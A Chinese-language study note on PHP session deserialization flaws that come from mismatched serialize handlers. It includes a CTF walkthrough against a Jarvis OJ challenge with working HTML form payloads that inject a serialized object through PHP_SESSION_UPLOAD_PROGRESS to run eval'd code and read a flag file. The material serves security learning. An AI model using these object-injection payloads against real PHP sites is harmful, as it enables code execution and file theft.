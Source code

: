[带你走进PHP session反序列化漏洞](https://xz.aliyun.com/t/6640#toc-10)

[PHP反序列化入门之session反序列化](https://mochazz.github.io/2019/01/29/PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%85%A5%E9%97%A8%E4%B9%8Bsession%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#PHP%E7%9A%84session%E6%9C%BA%E5%88%B6)

[PHP反序列化漏洞学习——Session反序列化](https://ca01h.top/Web_security/php_related/4.PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0-session%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

## session反序列化

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

`username|s:4:"asdf";`(键名+竖线+经过`serialize()`函数序列处理的值)

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php_serialize');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

`a:1:{s:8:"username";s:4:"asdf";}`(经过`serialize()`函数序列化处理的数组)

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php_binary');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

![](PHP_Session.png)

`usernames:4:"asdf";`(**键名的长度**对应的ASCII字符(BS的ASCII为8)+键名+经过`serialize()`函数序列化处理的值)

**当序列化的引擎和反序列化的引擎不一致时,就可以利用引擎之间的差异产生序列化注入漏洞**

[https://www.php.net/session_start/](https://www.php.net/session_start/)

>当会话自动开始或者通过session_start()手动开始的时候，PHP内部会调用会话管理器的open和read回调函数。会话管理器可能是PHP默认的，也可能是扩展提供的（SQLite或者Memcached扩展），也可能是通过session_set_save_handler()设定的用户自定义会话管理器。通过read回调函数返回的现有会话数据（使用特殊的序列化格式存储），PHP 会**自动反序列化数据并且填充$_SESSION超级全局变量**

```php
<?php
//1.php
error_reporting(0);
ini_set('session.serialize_handler', 'php_serialize');//使用php_serialize引擎存储
session_start();
$_SESSION['username'] = $_GET['user'];
var_dump($_SESSION);
?>
```

```php
<?php
//2.php
error_reporting(0);
ini_set('session.serialize_handler', 'php');//使用php引擎存储
session_start();

class user
{
    var $name = "zhangsan";

    public function __destruct()
    {
        echo $this->name;
    }
}
?>
```

对于`php_serialize`引擎来说`|`是一个普通字符,但对于`php`引擎来说`|`是键名与序列化值的分隔符,从而在解析的时候造成了歧义,导致其在解析Session文件时直接对`|`后的值进行反序列化处理

对`1.php`传入`?user=|O:4:"user":1:{s:4:"name";s:4:"asdf";}`此时的`sess`文件为`a:1:{s:8:"username";s:38:"|O:4:"user":1:{s:4:"name";s:4:"asdf";}";}`

调用`2.php`,`php`引擎将`|`作为分隔符处理,前半部分`a:1:{s:8:"username";s:38:"`被`php`引擎作为Session的键值处理,后半部分`O:4:"user":1:{s:4:"name";s:4:"asdf";}";}`被Session自动反序列化,从而调用2.php中的user类

---

可能存在无法直接对Session赋值的情况

[https://www.php.net/manual/zh/session.upload-progress.php](https://www.php.net/manual/zh/session.upload-progress.php)

>当`session.upload_progress.enabled`的INI选项开启时，PHP能够在每一个文件上传时监测上传进度。这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态
>
>当一个上传在处理中，同时**POST一个与INI中设置的session.upload_progress.name同名变量**时，上传进度可以在`$_SESSION`中获得。当PHP检测到这种POST请求时，它会在`$_SESSION`中添加一组数据,索引是`session.upload_progress.prefix`与`session.upload_progress.name`连接在一起的值。

[http://web.jarvisoj.com:32784/](http://web.jarvisoj.com:32784/)

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

|Directive|Local Value|Master Value|
|:---:|:---:|:---:|
|session.serialize_handler|**php**|**php_serialize**|
|session.upload_progress.cleanup|Off|Off|
|session.upload_progress.enabled|On|On|
|session.upload_progress.freq|1%|1%|
|session.upload_progress.min_freq|1|1|
|session.upload_progress.name|PHP_SESSION_UPLOAD_PROGRESS|PHP_SESSION_UPLOAD_PROGRESS|
|session.upload_progress.prefix|upload_progress_|upload_progress_|

引擎存在差异,存在反序列化漏洞,`session.upload_progress.enabled==On`,可以进行文件上传

```html
<!DOCTYPE html>
<html>
<body>
    <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value='|O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}'/>
        <input type="file" name="file"/>
        <input type="submit"/>
    </form>
</body>
</html>
```

随便提交一个文件得到`Array ( [0] => . [1] => .. [2] => Here_1s_7he_fl4g_buT_You_Cannot_see.php [3] => index.php [4] => phpinfo.php )`

![](PHP_Session_Upload1.png)

已知`DOCUMENT_ROOT`为`/opt/lampp/htdocs`,通过`file_get_contents`对flag进行读取

```php
<!DOCTYPE html>
<html>
<body>
    <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value='|O:5:"OowoO":1:{s:4:"mdzz";s:88:"print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));";}'/>
        <input type="file" name="file"/>
        <input type="submit"/>
    </form>
</body>
</html>
```

![](PHP_Session_Upload2.png)

## 例题

>todo

[2018 XCTF Final bestphp](https://github.com/shimmeris/CTF-Web-Challenges/tree/master/File-Inclusion/XCTF-Final-2018-Bestphp)












[LCTF 2018 bestphp's revenge](https://github.com/CTFTraining/lctf_2018_bestphp_s_revenge)
